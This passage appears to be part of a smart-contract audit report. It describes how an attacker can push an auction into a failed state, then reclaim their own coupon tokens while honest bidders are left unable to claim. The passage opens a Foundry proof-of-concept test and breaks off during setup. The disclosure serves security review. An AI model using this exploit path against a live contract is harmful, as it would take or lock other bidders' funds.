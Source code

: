 1. **Bid Placement:**
   - Bidders place their bids by specifying `buyReserveAmount` and `sellCouponAmount`.
   - These bids are stored and managed within a sorted linked list based on bid competitiveness.

2. **Auction Termination:**
   - Once the auction's `endTime` is surpassed, any participant can invoke `endAuction()`.
   - If `currentCouponAmount` is less than `totalBuyCouponAmount`, the auction state changes to `FAILED_UNDERSOLD`.

3. **Refund Mechanism:**
   - The attacker, having placed a bid, can call `claimRefund()` to retrieve their `sellCouponAmount`.
   - Legitimate bidders are left unable to claim their `buyReserveAmount` as the auction is marked as failed.

#### Proof-of-Concept Code and Results

The following test case demonstrates the exploit:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test} from "forge-std/Test.sol";
import {Auction} from "../src/Auction.sol";
import {Token} from "./mocks/Token.sol";
import {Utils} from "../src/lib/Utils.sol";
import {Pool} from "../src/Pool.sol";
import {PoolFactory} from "../src/PoolFactory.sol";
import {Deployer} from "../src/utils/Deployer.sol";
import {OracleFeeds} from "../src/OracleFeeds.sol";
import {Distributor} from "../src/Distributor.sol";
import {BondToken} from "../src/BondToken.sol";
import {LeverageToken} from "../src/LeverageToken.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";

contract AuctionManipulationTest is Test {
    Auction auction;
    Token couponToken;   // e.g. USDC
    Token reserveToken;  // e.g. WETH
    address attacker = address(0xbad0);
    address honestBidder = address(0xb1d);
    address house = address(0x1337);
    address governance = address(0xdead);
    address securityCouncil = address(0x999);
    address pool;

    function setUp() public {
        // Deploy tokens
        couponToken = new Token("MockUSDC", "USDC", false);
        reserveToken = new Token("MockWETH", "WETH", false);

        // Setup a Pool with the tokens
        pool = createPool(address(reserveToken), address(couponToken));

        // Deploy and initialize Auction via Utils.deploy
        vm.startPrank(pool);
        auction = Auction(
            Utils.deploy(
                address(new Auction()),
                abi.encodeWithSelector(
                    Auction.initialize.selector,
                    address(couponToken),
                    address(reserveToken),
                    5000_000000,           // totalBuyCouponAmount
                    block.timestamp + 3 days,
                    1000,                  // maxBids
```